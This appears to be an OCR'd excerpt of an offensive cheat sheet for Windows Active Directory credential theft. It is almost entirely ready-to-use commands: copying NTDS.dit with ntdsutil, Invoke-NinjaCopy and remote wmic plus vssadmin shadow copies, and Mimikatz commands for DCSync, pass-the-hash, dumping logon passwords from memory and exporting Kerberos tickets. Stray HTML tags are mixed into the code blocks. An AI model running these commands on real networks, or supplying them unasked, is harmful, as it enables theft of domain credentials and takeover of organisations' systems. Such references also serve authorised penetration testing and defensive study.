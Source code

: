 ```
ntdsutil “activate instance ntds” “IFM” “create full **&lt;outputfile&gt;**” q q
```

<span id="anchor-284"></span>Dump Active Directory NTDS.dit with
Invoke-NinjaCopy

```
Invoke-NinjaCopy -Path “**&lt;path&gt;**\\ntds.dit” -ComputerName “**&lt;DCName&gt;**” -LocalDestination “**&lt;outputfile&gt;**”
```

<span id="anchor-285"></span>Dump Active Directory NTDS.dit with Volume
Shadow Copy

```
wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c vssadmin create shadow /for=<strong>&lt;driveletter</strong>&gt;: 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong>
wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\<strong>&lt;NTDS.dit_Path&gt;</strong> <strong>&lt;destination_path&gt;</strong> 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong>
wmic /node:<strong>&lt;DC FQDN&gt;</strong> /user:<strong>&lt;domain&gt;</strong>\<strong>&lt;user&gt;</strong> /password:<strong>&lt;password&gt;</strong> process call create “cmd /c copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM <strong>&lt;destination_path&gt;</strong> 2&gt;&amp;1 &gt; <strong>&lt;logfile&gt;</strong></p></td>
```

<span id="anchor-286"></span>Invoke-MimiKatz Retrieve All Credentials

```
Invoke-Mimikatz -ComputerName **&lt;host&gt;**
```

<span id="anchor-287"></span>Invoke-MimiKatz Retrieve Credentials for a
Single User from a DC

```
Invoke-Mimikatz -Command “lsadump::dcsync /domain:**&lt;domain FQDN&gt;** /user:**&lt;domain&gt;**\\**&lt;user&gt;**”
```

<span id="anchor-288"></span>Invoke-MimiKatz Pass-the-Hash (PTH)

```
Invoke-Mimikatz -Command “sekurlsa::pth /user:**&lt;user&gt;** /domain:**&lt;domain&gt;** /ntlm:**&lt;hash&gt;** /run:**&lt;program&gt;**”
```

<span id="anchor-289"></span>MimiKatz Get Logon Passwords (From Memory)

```
privilege::debug
sekurlsa::logonpasswords</p></td>
```

<span id="anchor-290"></span>MimiKatz Dump Tickets (From Memory)

```
privilege::debug
sekurlsa::tickets /export</p></td>
```
